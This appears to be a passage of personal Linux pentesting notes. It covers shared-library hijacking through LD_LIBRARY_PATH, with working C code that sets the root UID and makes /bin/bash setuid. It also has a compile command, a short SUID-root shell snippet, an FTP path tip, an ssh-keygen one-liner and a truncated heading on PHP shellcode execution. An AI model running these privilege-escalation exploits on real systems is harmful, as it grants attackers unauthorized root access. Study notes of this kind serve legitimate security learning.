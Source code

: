 In this case, `LD_LIBRARY_PATH` Is where the libraries in the binary are loaded from.

So to exploit this, I created a replacement for the missing library `[utils.so](http://utils.so)` in the directory I could write in `/usr/local/lib/dev`.  The contents of C file to escalate my privileges were as follows:

```jsx
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack(){
	setresuid(0,0,0);
	system("chmod +s /bin/bash");
}

// compile this exploit with following command
// gcc -o utils.so -shared -fPIC exploit.c
```

It worked!

![Untitled](Linux%20Tips%200ac4056c2acc4d4fab0a79667bee9186/Untitled%206.png)

An alternative is this

```jsx
// Linux 2.6.18 SUID ROOT Exploit
int main(void) {
       setgid(0); setuid(0);
       execl("/bin/sh","sh",0); }
```

## Default FTP File location

The default FTP root directory location is `/var/ftp/`. So if the ftp showed a file called `test.txt` when you connect, it would be `/var/ftp/test.txt` in the server.

# SSH keygen one-liner

```nasm
ssh-keygen -t rsa -N '' -f ./id_rsa
```

## PHP Alternative execution

These are additional functions to execute shellcode in PHP
